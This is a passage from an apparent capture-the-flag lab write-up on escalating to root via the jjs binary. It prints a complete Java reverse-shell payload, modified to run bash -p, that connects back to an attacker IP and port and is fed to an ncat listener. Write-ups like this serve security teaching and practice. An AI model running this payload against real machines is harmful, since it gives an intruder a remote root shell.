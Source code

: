 *To check for ways to exploit it,* we searched [GTFOBins](https://gtfobins.github.io/gtfobins/jjs/) and found the below:

![](/assets/Mango/jjs-on-gtfo-bins.jpg)

Seems **pretty straightforward**. A **standard Java reverse shell payload**.

**An Important Note:** *to* ***inherit the permissions*** *from the* `jjs` *binary and* ***get code execution as*** `root`, we have to **modify the payload** on the **6th line** and call `bash` with the `-p` flag instead.

```bash
export RHOST=10.10.16.9
export RPORT=9000
echo 'var host=Java.type("java.lang.System").getenv("RHOST");
var port=Java.type("java.lang.System").getenv("RPORT");
var ProcessBuilder = Java.type("java.lang.ProcessBuilder");
var p=new ProcessBuilder("/bin/bash", "-p").redirectErrorStream(true).start();
var Socket = Java.type("java.net.Socket");
var s=new Socket(host,port);
var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

we start our `ncat` listener and **set the required environment variables** over on the victim machine before **executing the shell.**
